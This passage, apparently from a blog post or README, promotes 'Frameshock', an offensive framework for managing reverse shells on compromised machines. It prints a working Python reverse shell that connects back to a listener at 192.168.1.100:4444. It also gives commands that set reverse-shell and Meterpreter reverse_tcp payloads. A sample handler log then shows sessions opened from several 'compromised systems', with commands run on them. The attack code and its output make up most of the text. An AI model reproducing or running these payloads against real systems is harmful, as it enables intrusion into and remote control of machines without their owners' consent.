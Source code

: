 ### Session Management in Action

![Frameshock Session Manager](/assets/blog/frameshock-session-manager.png)

In the image above, you can see how an `injector.py` requests a payload from the handler and after its execution in memory, returns a Reverse Shell that we can interact with at any time.

### 🚀 Advanced Payload Arsenal

Frameshock supports multiple payload types for diverse scenarios:

**Generic Reverse Shells**
```bash
# Traditional sh/bash reverse shells
set payload linux/reverse_shell
set lhost 192.168.1.100
set lport 4444
```

**Python-Based Connections**
```python
# Cross-platform Python reverse shell
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.100",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

**Meterpreter Integration**
```bash
# Direct Metasploit integration
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.100
set lport 443
```

### 🔄 Multi-Session Management

Handle dozens of compromised systems simultaneously:

```bash
frameshock> start handler
[+] Multi-handler started on 192.168.1.100:4444
[+] Waiting for connections...

[+] Session 1 opened: 172.16.1.200:443
[+] Session 2 opened: 10.0.0.50:22
[+] Session 3 opened: 192.168.1.100:80

frameshock> sessions -i 1
[Session 1] shell> whoami
www-data
[Session 1] shell> uname -a
Linux target01 3.19.0-25-generic #26~14.04.1-Ubuntu
```
